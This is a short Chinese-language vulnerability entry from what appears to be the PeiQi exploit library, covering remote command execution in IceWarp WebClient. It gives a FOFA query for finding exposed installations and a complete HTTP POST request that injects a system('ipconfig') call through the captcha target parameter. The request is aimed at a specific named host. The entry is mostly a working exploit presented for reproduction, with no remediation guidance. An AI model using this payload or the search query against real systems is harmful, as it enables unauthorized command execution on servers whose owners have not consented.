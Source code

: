 ```yaml
---
title: IceWarp WebClient basic 远程命令执行漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - IceWarp
---
```


# IceWarp WebClient basic 远程命令执行漏洞

## 漏洞描述

IceWarp WebClient 存在远程命令执行漏洞，攻击者构造特殊的请求即可远程命令执行

## 漏洞影响

> [!NOTE]
>
> IceWarp WebClient 

## FOFA

> [!NOTE]
>
> app="IceWarp-公司产品"

## 漏洞复现

登录页面如下

![image-20210616110615816](/img/20210924020243542759.png)

漏洞请求包为

```
POST /webmail/basic/ HTTP/1.1
Host: sd.sahadharawat.com
Content-Type: application/x-www-form-urlencoded
Cookie: use_cookies=1
Content-Length: 43

_dlg[captcha][target]=system(\'ipconfig\')\
```

![image-20210616110911190](/img/20210924020244933785.png)